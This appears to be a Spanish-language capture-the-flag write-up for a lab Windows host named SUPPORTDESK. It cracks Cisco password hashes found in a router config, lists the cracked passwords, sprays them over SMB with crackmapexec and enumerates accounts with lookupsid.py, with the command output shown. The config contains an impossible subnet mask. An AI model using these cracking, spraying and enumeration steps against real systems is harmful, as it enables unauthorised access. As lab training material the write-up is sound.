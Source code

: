 ```bash
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```
# Crackeando hashes
Investigando encontre que esos tipos de hashes son de la configuracion de cisco y que pueden ser crackeados en la <a href='https://www.ifm.net.nz/cookbooks/passwordcracker.html'>web</a>, mientras el hash 5 puede ser crackeado con john.
Creackee los hashes y me dieron los siguientes resultados.
```bash
5 stealth1agent
7 $uperP@ssword
7 Q4)sJu\Y8qz*A3?d
```
Una vez crackeados trate de encontrar usuarios validos con los usuarios que ya tengo vistos.
hazars, admin y rout3r.
Con crackmapexec intente validar las claves con algun usuario.
```bash
crackmapexec smb 10.129.190.183 -u users -p passwords.txt
SMB         10.129.190.183  445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.190.183  445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```
# Shell como Chase
Tenemos credenciales intente encontrar algo util en el smb, pero no habia nada de mi interes. Sin encontrar mucho mas lo unico que podia hacer era enumerar mas usuarios y esto lo hice con la herramienta lookupsid.py.
```bash
lookupsid.py SUPPORTDESK/hazard:stealth1agent@10.129.190.183         
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at 10.129.190.183
[*] StringBinding ncacn_np:10.129.190.183[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
```